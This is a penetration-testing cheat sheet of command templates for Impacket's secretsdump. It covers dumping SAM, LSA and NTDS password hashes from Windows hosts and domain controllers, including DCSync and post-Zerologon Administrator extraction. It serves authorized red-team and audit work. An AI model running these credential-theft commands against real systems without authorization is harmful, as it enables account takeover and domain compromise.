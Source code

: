# secretsdump (imp)

% impacket-secrets, windows, smb, 445

## auth - account
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain_FQDN>/<user>:<password>'@<target_name>
```

## auth - hash
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -hashes <lm_hash>:<nt_hash> '<domain_FQDN>/<user>@<target_name>'
```

## auth - kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
KRB5CCNAME=<ccache> secretsdump.py -k -no-pass -dc-ip <dc_ip> -no-pass -k <target_name>
```

## SAM - online
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## SAM - offline
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|system.save> -sam <SAM_FILE|sam.save> LOCAL
```

## LSA - online
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## LSA - offline
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -system <SYSTEM_FILE|system.save> -security <SECURITY_FILE|security.save>' LOCAL
```

## NTDS - online (NTLM + keys)
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -user-status -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<dc_name>
```

## NTDS - online (only NTLM)
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -user-status -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<dc_name>
```

## NTDS - offline
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <NTDS_FILE|ntds_file.dit> -system <SYSTEM_FILE|system.save> LOCAL -outputfile <ntlm-extract-file>
```


## anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## DCSYNC - online (ptt)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -k -no-pass -just-dc -outputfile <file-prefix>  -dc-ip <dc_ip> '<domain>/<user>'@<dc_name>
```